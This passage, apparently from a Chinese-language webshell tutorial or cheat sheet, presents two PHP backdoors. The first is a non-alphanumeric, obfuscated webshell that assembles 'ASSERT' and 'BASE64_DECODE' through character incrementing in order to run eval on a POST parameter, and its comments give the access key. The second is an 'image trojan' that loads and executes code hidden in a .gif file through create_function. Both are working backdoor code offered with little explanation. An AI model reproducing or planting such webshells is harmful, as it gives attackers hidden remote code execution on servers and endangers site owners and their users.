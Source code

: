 ### 0x6: Non alphanumeric webshell

```php
<?php
$_="";
$_[+$_]++;
$_=$_."";
$___=$_[+""];//A
$____=$___;
$____++;//B
$_____=$____;
$_____++;//C
$______=$_____;
$______++;//D
$_______=$______;
$_______++;//E
$________=$_______;
$________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;//O
$_________=$________;
$_________++;$_________++;$_________++;$_________++;//S
$_=$____.$___.$_________.$_______.'6'.'4'.'_'.$______.$_______.$_____.$________.$______.$_______;
$________++;$________++;$________++;//R
$_____=$_________;
$_____++;//T
$__=$___.$_________.$_________.$_______.$________.$_____;
$__($_("ZXZhbCgkX1BPU1RbMV0p"));   
//ASSERT(BASE64_DECODE("ZXZhbCgkX1BPU1RbMV0p"));
//ASSERT("eval($_POST[1])");
//key:=1
?>
```

### 0x7: 图片木马

{% code title="choop.php" %}
```php
<?php
    $wp__theme_icon=create_function('',file_get_contents('/hacker.gif'));
    $wp__theme_icon();
?>
```
{% endcode %}

hacker.gif: \
phpinfo();

这是图片木马的利用方式的一种  [http://www.php.net/manual/zh/function.create-function.php](http://www.php.net/manual/zh/function.create-function.php)

```php
string create_function ( string $args , string $code )
```
